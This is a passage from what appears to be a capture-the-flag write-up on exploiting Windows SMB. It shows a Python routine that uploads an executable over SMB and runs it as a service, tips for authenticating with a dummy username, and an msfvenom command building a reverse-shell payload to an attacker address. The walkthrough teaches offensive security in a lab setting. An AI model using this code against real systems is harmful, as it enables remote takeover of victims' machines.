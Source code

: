 
This is the action taken with the exploit. In this case, without mod, it’s
creating `C:\pwned.txt` on the target. But the commented out lines show how
the functions in this file can be used to also upload to the target
(`smb_send_file`) and execute as a service (`service_exec`).

The updated `send_and_execute.py` adds some handling of command line args, and
then this function:

    
    
    def send_and_execute(conn, arch):
    	smbConn = conn.get_smbconnection()
    
    	filename = "%s.exe" % random_generator(6)
    	print "Sending file %s..." % filename
    
    
        #In some cases you should change remote file location
        #For example:
        #smb_send_file(smbConn, lfile, 'C', '/windows/temp/%s' % filename)
    	#service_exec(conn, r'cmd /c c:\windows\temp\%s' % filename)    
    	
    	smb_send_file(smbConn, lfile, 'C', '/%s' % filename)
    	service_exec(conn, r'cmd /c c:\%s' % filename)
    

It’s very similar to what’s going on in the original, but it’s updated to
upload `lfile` to `C:\filename` and then run it.

You can either modify `zzz_exploit.py`, use `send_and_execute.py`, or make
your own script using the functions from that repo.

#### Cred Update

Just like with `smbmap` above, when I try to run this with username as an
empty string, it won’t auth. However, if I just add any string into the
username, it will then work.

When I was doing OSCP (2.5 years ago now), there were many boxes that would
fall to this script with blank creds. I believe it should act similar to what
you see with `smbmap`. But just like there, it’s always better to try both
with and without bad creds if you aren’t sure (and of course if you have good
creds, then use those!).

#### Shell

I’ll generate a payload with `msfvenom`:

    
    
    oxdf@parrot$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes
    Saved as: rev.exe
    
